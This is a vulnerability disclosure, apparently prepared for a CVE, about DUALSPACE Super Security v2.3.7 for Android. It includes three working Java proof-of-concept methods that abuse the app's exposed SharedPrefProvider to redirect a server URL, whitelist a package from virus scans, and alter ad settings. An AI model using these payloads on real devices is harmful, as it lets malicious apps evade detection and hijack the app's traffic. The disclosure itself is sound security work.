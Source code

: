 ## Denial of Service exists in Super Secuirty

Vendor：DUALSPACE(http://www.dualspace.com/pc/en/products.html)

Affected product：Super Security  (com.ludashi.security)

Version：2.3.7

Download link：https://apkpure.com/cn/super-security-virus-cleaner/com.ludashi.security

Description of the vulnerability for use in the CVE：An issue found in DUALSPACE Super Secuirty v.2.3.7 allows an attacker to cause a denial of service via the SharedPreference files.

Additional information：The app is a security application that provides several security-related functions. Upon opening, the app loads the SharedPreference files into memory and uses the data in some important functions. If a malicious app modifies important data in the SharedPreference files, the Super Security app will not behave properly when loading this data. This can cause many security hazards, such as controlling the server URL the victim app is going to access (by modifying the key_wifi_safe_net_check_url field), allowing malicious apps to add themselves to the virus check whitelist (by modifying the KEY_VIRUS_SCAN_WHITELIST field), ad blocking (by modifying the key_ad_new_user_avoid_time field), and more. Even worse, users cannot fix the security issue by rebooting victim devices, since the injected data is persistent in the SharedPreference files.



1.Controlling the server URL the victim app is going to access:

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",4);
    contentValues.put("key","key_wifi_safe_net_check_url");
    contentValues.put("value","www.xxx.com");
    contentResolver.update(uri, contentValues,null,null);
}
```

<img src="CVE detail.assets/image-20230403194034307.png" alt="image-20230403194034307" style="zoom: 50%;" />

2.Allowing malicious apps to add themselves to the virus scan whitelist：

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",4);
    contentValues.put("key","KEY_VIRUS_SCAN_WHITELIST");
    contentValues.put("value","xxx.packagename");
    contentResolver.update(uri, contentValues,null,null);
}
```

KEY_VIRUS_SCAN_WHITELIST field：

<img src="CVE detail.assets/image-20230404134921229.png" alt="image-20230403194034307" style="zoom: 50%;" />

3.ad blocking

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",2);
    contentValues.put("key","key_ad_new_user_avoid_time");
    contentValues.put("value","100000");
    contentResolver.update(uri, contentValues,null,null);
}
```

key_ad_new_user_avoid_time field：

<img src="CVE detail.assets/image-20230404135013298.png" alt="image-20230404135013298" style="zoom:50%;" />